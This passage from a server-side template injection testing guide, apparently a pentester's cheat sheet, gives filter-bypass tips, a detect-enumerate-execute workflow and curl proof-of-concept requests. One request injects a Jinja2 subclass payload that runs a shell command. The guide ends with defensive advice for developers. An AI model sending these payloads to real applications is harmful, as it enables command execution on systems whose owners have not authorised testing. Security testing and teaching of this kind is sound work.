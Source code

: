 * Combine encodings + comments + nested templates.
* Polyglot example: `{{77}}//{{77}}` — may slip through layered filters.
* Chain decoding flows: percent‑encode parts, then use comments to bypass blocklists.

---

## 12) Minimal PoC workflow (reproducible)

1. **Detect:** POST `{{7*7}}` to injection point. If response contains `49`, proceed.
2. **Enumerate:** request `{{''.__class__.__mro__[1].__subclasses__()}}` or engine‑specific introspection to locate execution vector.
3. **Test exec (lab only):** run `whoami` or small command; if no output, use blind OOB.
4. **Reduce:** reduce payload to the minimal sequence that produces result. Save raw request/response for reporting.

---

## 13) Practical curl PoCs (safe & conceptual)

**Reflection probe:**

```bash
curl -s -X POST "https://target/app" -H "Content-Type: application/json" \
  -d '{"name":"{{7*7}}"}'
```

**URL encoded probe:**

```bash
curl -s -X POST "https://target/app" -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "search=%7b%7b7*7%7d%7d"
```

**OOB timing concept (replace index and domain appropriately):**

```bash
curl -s -X POST "https://target/app" -H "Content-Type: application/json" \
  -d '{"name":"{{ ''.__class__.__mro__[1].__subclasses__()[132]("sleep 5", shell=True) }}"}' -w "%{time_total}\n"
```

If `time_total` increases significantly, execution likely occurred.

---

## 14) Defensive notes (what devs should do)

* Never render raw user input as a template. If templates are required, do not allow user‑supplied template text.
* Use sandboxed template environments (e.g., `jinja2.sandbox.SandboxedEnvironment`) with strict filters and no access to `__class__`/subclasses.
* Escape user input appropriate to context (HTML/JS/JSON).
* Remove or disable dangerous template functions (`eval`, `exec`, system utilities).
* Apply input normalization and WAF rules, but don’t rely on WAF only—fix the root cause.

---
